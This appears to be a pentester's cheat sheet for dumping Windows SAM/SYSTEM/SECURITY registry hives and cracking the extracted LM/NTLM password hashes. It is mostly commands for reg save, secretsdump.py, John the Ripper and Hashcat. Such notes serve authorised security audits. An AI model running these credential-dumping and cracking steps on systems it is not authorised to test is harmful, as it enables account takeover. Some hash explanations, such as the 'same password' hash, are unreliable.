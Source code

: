 ## 1. Dump the Windows files which contain the local password hashes (Windows registry files: SAM, SECURITY and SYSTEM):

Dump les fichiers de registre à l'aide de "REG SAVE" (nécessite les droits admin):
```
reg save HKLM\SAM C:\temp\sam
reg save HKLM\SYSTEM C:\temp\system 
reg save HKLM\SECURITY C:\temp\security
```



## 2. Extract the windows local password hashes:

```
secretsdump.py -sam sam -security security -system system LOCAL
```



## 3. Hash formats :

Two types of hashes are present in SAM file
	- LM (old storage method of Windows)
	- NTLM


Examples of hash

	[username]::[LM]:[NTLM]:::

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
User:1000:aad3b435b51404eeaad3b435b51404ee:0b82e1dace77e29dd1de00896ba1c5bc:::
```

- If the LM hash has the value "aad3b435b51404eeaad3b435b51404ee" so the password is not storage in the LM hash
- If the NTLM hash has the value "31d6cfe0d16ae931b73c59d7e0c089c0" so the password is empty (potentially due to a desactivated account)
- If the NTLM hash has the value "b1b1d2ebf0bb5707135a9032caea49d3" so we have the same password



## 4. John the ripper - Crack the password hashes :

#### General commands and rules

	john [type of attack] --format=[hash of the format] 

	--rules:Single
	--rules:Wordlist
	--rules:Extra
	--rules:Jumbo (all the above)
	--rules:KoreLogic
	--rules:All (all the above)


#### Cracking methodology :

1. Verify the LM hashes:

You can beginning by a crack of the LM password, in the case of the some hash alues are different to :
```
"aad3b435b51404eeaad3b435b51404ee" -> not storage in LM hash
"31d6cfe0d16ae931b73c59d7e0c089c0" -> empty password
"b1b1d2ebf0bb5707135a9032caea49d3" -> we have the same password
````

2. Verify login=password
```
john --single --format=[LM|NTLM] hashes.txt --fork=4
```

3. Standards dictionnary attacks with[out] rules
```
john --wordlist=dictionary.txt --format=LM hashes.txt --fork=4
john --wordlist=dictionary.txt --format=LM hashes.txt --fork=4 --rules=KoreLogic
```

Be careful, the rules=all parameter is very long. With a lot of hashes, this operation will working during several days.

4. Show result:

The cracked hashes are located in the corresponding .pot file

	john --format=LM hashes.txt --show
	john --format=NTLM hashes.txt --show



## 5. Hashcat - Crack the password hashes :

#### General commands and rules
```			
hashcat -m <typeOfHash> -a <typeOfAttack> -o <outputFile> <hashesFile.txt> <dictionaryFile.txt>
```		

Advances attacks (option -a)
```
0 - Straight : It is the default attack which is also the dictionary attack
1 - Combination : This attack permits to combine several dictionaries. Example: With a wordlist of fruits and a second with color, we obtain a combined wordlist with combinations like : BananaRed, BananaGreen, AppleRed, AppleGreen
3 - Brute-forcing : Traditional Brute-forcing attack which will try each possible combination. Compatible with Masks-Attacks and Rules-Attacks
4 - Permutation : Attack which change the order of the letter for each word of the dictionary. Example with the password 123: 132, 213, 231, 312, 321
```

#### Cracking methodology :

1. Verify the LM hashes:

You can beginning by a crack of the LM password, in the case of the some hash alues are different to :
```
"aad3b435b51404eeaad3b435b51404ee" -> not storage in LM hash
"31d6cfe0d16ae931b73c59d7e0c089c0" -> empty password
"b1b1d2ebf0bb5707135a9032caea49d3" -> we have the same password
```

2. Verify login=password
```
➤ For LM hash :
Generate the list of the login

cat [LIST_OF_HASH].txt | cut -d':' -f1 > [OUTPUT_LOGIN].txt

Try login=password 

hashcat -m 3000 hash.txt [LOGIN].txt
```

```
➤ For NTLM hash :
Generate the list of the login
cat [LIST_OF_HASH].txt | cut -d':' -f1 > [OUTPUT_LOGIN].txt

Try login=password 

hashcat -m 1000 hash.txt [LOGIN].txt
```

3. Dictionnary attack
```
➤ For LM hash :
hashcat -m 3000 -a 0 [Dictionnary].txt [Hash].txt --force

➤ For NTLM hash:
hashcat -m 1000 -a 0 [Dictionnary].txt [Hash].txt --force
```

4. Dictionnary attack with rules

To see the existing rules attacks
```
ls -l /usr/share/hashcat/rules/
```

```
➤ For LM hash :
hashcat -m 3000 -a 0 [Dictionnary].txt [Hash].txt  -r [Rules_path] --force

➤ For NTLM hash:
hashcat -m 1000 -a 0 [Dictionnary].txt [Hash].txt -r [Rules_path] --force
```

5. Show cracked/not cracked passwords

```
➤ For LM hash :
hashcat -m 3000 -a 0 [Dictionnary].txt [Hash].txt -show

➤ For NTLM hash:
hashcat -m 1000 -a 0 [Dictionnary].txt [Hash].txt -show
```
